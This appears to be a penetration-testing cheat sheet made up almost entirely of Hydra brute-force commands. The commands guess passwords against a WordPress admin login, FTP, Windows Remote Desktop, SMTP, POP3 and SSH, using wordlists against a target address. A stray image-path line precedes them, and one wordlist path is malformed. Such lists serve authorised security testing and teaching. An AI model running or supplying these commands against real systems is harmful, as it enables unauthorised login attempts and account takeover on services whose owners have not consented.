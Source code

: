 				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

				FTP known user and rockyou password list
hydra -t 1 -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

						SSH
	
				SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh